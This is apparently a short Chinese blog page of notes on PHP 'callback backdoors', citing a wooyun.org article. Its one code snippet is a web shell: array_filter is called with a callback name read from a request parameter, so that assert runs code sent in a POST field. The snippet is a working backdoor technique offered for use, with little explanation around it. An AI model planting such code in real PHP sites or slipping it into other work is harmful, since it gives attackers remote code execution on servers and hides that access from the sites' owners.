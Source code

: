 ```yaml
---
layout: page
title:	php 后门
category: blog
description: 
---
```

# Preface

# php 回调后门
http://drops.wooyun.org/tips/7279

## array_filter

	$e = $_REQUEST['e'] = 'assert';
	$arr = array($_POST['pass'] = 'phpinfo();',);
	array_filter($arr, base64_decode($e));
